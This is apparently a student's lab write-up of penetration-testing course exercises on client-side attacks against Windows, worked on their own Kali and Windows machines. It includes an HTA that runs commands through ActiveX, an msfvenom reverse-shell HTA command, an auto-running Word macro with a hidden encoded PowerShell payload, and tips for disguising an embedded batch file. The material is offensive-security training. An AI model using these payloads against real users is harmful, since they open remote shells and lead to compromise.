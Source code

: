 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```

Placing this in our html folder on our kali machine and then navigated to the poc.hta endpoint on our windows test machine and we see the following:
![[Pasted image 20220715172425.png]]

When we run the PoC we get a successful calc.exe command:
![[Pasted image 20220715172534.png]]


Now we can move into utilizing msfvenom to alter our hta page and create a new powershell based payload. We can use the following command:
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`

Once generated, we need to setup a listener on the specified port and navigate to the endpoint on our Windows test machine and we will get a reverse shell.

![[Pasted image 20220715173157.png]]
![[Pasted image 20220715173122.png]]

**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**
Yes, upon testing with Microsoft Edge the hta file was successful in obtaining a reverse shell.

![[Pasted image 20220715173422.png]]
![[Pasted image 20220715173441.png]]
Upon clicking "Run" we recieve our connection.
![[Pasted image 20220715173521.png]]


# 13.3.3 Microsoft Word Macro
#### Exercises
**1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.**

To start, we need to create a framework for our Microsoft Word macro. We use the following code as that framework:
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub

```
This includes the AutoOpen and Document_Open procedures, which will cause the macro to run automatically.

Upon reopening the document, we see that a warning is present warning that macros are enabled.
![[Pasted image 20220715175358.png]]

Once the victim clicks "Enable Content" our PoC macro executes and we see cmd.exe.
![[Pasted image 20220715175549.png]]

From here we are going to turn to Powershell in order to reuse our Metasploit shellcode. We first declare a variable called "Str".  From there we need to set our variable to the base64 encoded string of the shellcode. As VBA has a 255 character limit for strings we can split the command into multiple lines before concatenated them. To do this we will use the following python code.

```
str = "powershell.exe -nop -w hidden -e BASE64_ENCODED_SHELL....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```
We then update our macro to include this newly split shellcode and to run the variable "Str" which is set to this shellcode.
![[Pasted image 20220715180707.png]]

From here, we just need to start a listener and open the document and we recieve our reverse shell.
![[Pasted image 20220715180802.png]]

# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**

To begin, we need to create a batch to be embedded into Microsoft Word. To do this we simply echo our base64 encoded shellcode into an object named "lanch.bat" 
![[Pasted image 20220715215507.png]]

We then need to open Microsoft Word and insert our launch.bat object.
![[Pasted image 20220715215735.png]]

We can even change the name and icon of the malicious file to be more inconspicuous. 
![[Pasted image 20220715220140.png]]

# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**
**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**
**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**